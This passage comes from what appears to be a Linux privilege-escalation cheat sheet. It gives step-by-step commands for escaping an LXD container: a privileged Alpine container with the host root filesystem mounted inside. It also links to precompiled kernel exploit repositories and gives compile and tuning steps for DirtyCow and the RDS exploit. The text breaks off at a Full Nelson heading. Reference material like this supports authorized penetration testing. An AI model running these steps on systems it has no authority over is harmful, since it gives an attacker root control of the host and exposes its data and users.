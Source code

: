 Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```powershell
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Alternatively https://github.com/initstring/lxd_root

## Kernel Exploits

Precompiled exploits can be found inside these repositories, run them at your own risk !
* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)

The following exploits are known to work well, search for another exploits using `searchsploit -w linux kernel centos`.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

```powershell
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```

### CVE-2010-3904 (RDS)

Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

```powershell
https://www.exploit-db.com/exploits/15285/
```

### CVE-2010-4258 (Full Nelson)

